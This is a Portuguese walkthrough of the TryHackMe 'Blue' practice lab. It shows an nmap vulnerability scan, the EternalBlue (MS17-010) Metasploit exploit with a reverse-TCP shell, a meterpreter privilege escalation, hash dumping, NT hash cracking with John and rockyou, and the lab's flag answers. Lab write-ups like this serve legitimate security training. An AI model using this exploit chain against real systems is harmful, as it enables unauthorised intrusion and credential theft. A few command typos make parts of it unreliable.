

# Introdução

A room trata de um exploiting de um windows com vulnerabilidade eternal blue.

A room não é um CTF, serve mais para prática de pentest.

# Execução

## 1 - Reconnaissance (Recon)

### Questões:
- a. *Scan the machine.*.

Execução do nmap, no terminal:
```bash
export TARGET=10.10.206.236  

nmap -sS -sV -O -sC --script vuln -T5 -Pn -p- $TARGET -oN portscan.nmap -v
```
- Primeiro, um export para uma variável de ambiente contendo o IP da VM alvo (esse ip vai mudar a cada deploy da VM no ambiente TryHackMe);
- O segundo comando é a execução do nmap. Mais detalhes sobre o comando [aqui](https://explainshell.com/explain?cmd=nmap+-sS+-sV+-O+-sC+--script+vuln+-T5+-Pn+-p-+%24TARGET+-oN+portscan.nmap+-v).

***Resposta da questão a***: *Não é necessário*

- b. *How many ports are open with a port number under 1000?*

Após a execução do nmap, constatou-se 3 portas abertas abaixo de 1000 (139/tcp, 445/tcp e 135/tcp)

***Resposta da questão b***: *3*

- c. *What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)*

Após a execução do nmap, basta verificar ou mesmo ler no arquivo de saída geradao "portscan.nmap" as vulnerabilidades detectadas. No trecho abaixo, temos a resposta:

```shell
Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED

```

***Resposta da questão c***: *ms17-010*

## 2 - Gain access

### Questões:

- a. *Start metasploit*: *Não é necessário responder*

Para iniciar o metasploit, basta executar no terminal:
```shell
msfsconsole
```


- b. *Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)*

Para responder essa questão, basta executar o comando abaixo no msfconsole:

```shell
search ms17-010
```
Ou seja, fazer uma busca pela vulnerabilidade detectada na etapa de recon.


***Resposta da questão b***: *exploit/windows/smb/ms17_010_eternalblues*

- c. *Show options and set the one required value. What is the name of this value? (All caps for submission)*

Para responder essa questão, primeiro deve-se habilitar o exploit necessário com o comando:

```shell
use exploit/windows/smb/ms17_010_eternalblue 
```

Após isso, basta digitar o comando abaixo ara listar as opções do exploit:

```shell
show options
```


***Resposta da questão c***: ***RHOSTS***

Antes de executar o exploit, é preciso "setar" o payload, conforme comando abaixo:

```shell
set payload windows/x64/shell/reverse_tcp
```

Também é necessário configurar o RHOSTS, conforme comando abaixo:

```shell
set RHOSTS=IP_DO_ALVO
```

Também é necessário configurar o LHOSTS, que é host do atacante:

```shell
set LHOSTS=IP_ATACANTE
```

Para executar o exploit, basta:

```shell
run
```


## 3 - Escalate

Pode-se enviar para background uma sessão aberta com CTRL + Z. Para listar as sessões, basta digitar:

```shell
sessions
```

Para ativar uma sessão, basta digitar:

```shell
sessions NUMERO_DA_SESSAO
```

### Questões:

- a. ***What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)***: *post/multi/manage/shell_to_meterpreter*

Para responder a questão acima, com a sessão em background, basta pesquisar:

```shell
search shell_to_meterpreter
```
Fonte: https://www.hackingarticles.in/command-shell-to-meterpreter/

- b. ***Select this (use MODULE_PATH). Show options, what option are we required to change?***: *SESSION*

Para a resposta do item b, ativa-se o módulo com:

```shell
use post/multi/manage/shell_to_meterpreter
```
Em seguida:

```shell
show options
```
Para "setar" a opção session, basta executar:

```shell
set session ID_DA_SESSAO
```
Lembrando que para recuperar o id da sessão desejada, basta digitar:

```shell
sessions
```


As demais questões não tem necessidade de respostas, apenas mostram algumas informações.

Após a configuração realizada, execute:

```shell
run
```
Em seguida, liste as sessões de shell:

```shell
sessions
```


Para ativar a sessão que foi criada com o meterpreter:

```shell
sessions 2
```

Para confirmar a elevação de privilégios, digite ***getuid***:

```shell
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 4 - Cracking

### Questões:

- a. ***What is the name of the non-default user?*** : *jon*

Para responder a questão, dentro do meterpreter, basta executar o comando:

```shell
hashdump
```


- b. *** What is the cracked password?*** : *alqfna22*

Para responder a questão ***b***, copia-se a hash do usuário john e coloca-se em um arquivo de texto (por exemplo: hash.txt)

Para começar, pode-se utilizar a wordlist rockyou. No Kali Linux, se estiver instalado a seclist, o arquivo com a wordlist está no path */usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz*. Descompacte no diretório corrente com:

```shell
tar -xzvf /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz rockyou.txt
```
Agora, basta executar o john the ripper com:

```shell
john --wordlist=rockyou.txt hash.txt --format=NT
```
Saída do comando:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/blue]
└─# john --wordlist=rockyou.txt hash.txt --format=NT

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)     
1g 0:00:00:00 DONE (2022-07-09 21:26) 1.612g/s 16452Kp/s 16452Kc/s 16452KC/s alr1979..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed. 
```

## 5 - Find the flags

### Questões:


- a. ***Flag1? This flag can be found at the system root.***: *flag{access_the_machine}*

Para responder a questão ***a***, ainda no meterpreter, digite duas vezes ***cd ..***, o diretório corrente era ***C:\Windows\System32***. Em seguida, liste o conteúdo do ***C:*** com o comando ***dir***. Para ler o conteúdo do arquivo flag1.txt, execute:

```shell
cat flag1.txt
```

- b. ***Flag2? This flag can be found at the location where passwords are stored within Windows.***: *flag{sam_database_elevated_access}*

Para ajudar a responder a questão ***b***, o meterpreter tem um comando search que pode ser usado para localizar o arquivo ***flag2.txt***.

```shell
meterpreter > search -f flag2.txt
Found 1 result...
=================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Windows\System32\config\flag2.txt  34            2019-03-17 15:32:48 -0400
```
Agora, basta acessar o diretório c:\Windows\System32\config e ler o conteúdo do arquivo com:
```shell
cat flag2.txt
```

- c. ***flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.***: 

Pela dica passada, o arquivo flag3.txt deve está em uma pasta de usuário. Entretanto, novamente, pode-se usar o comando search do meterpreter para localizar onde o arquivo flag3.txt está:

```shell
meterpreter > search -f flag3.txt
Found 1 result...
=================

Path                              Size (bytes)  Modified (UTC)
----                              ------------  --------------
c:\Users\Jon\Documents\flag3.txt  37            2019-03-17 15:26:36 -0400
```

Agora é só acessar o diretório e ler o conteúdo do arquivo com o comando cat.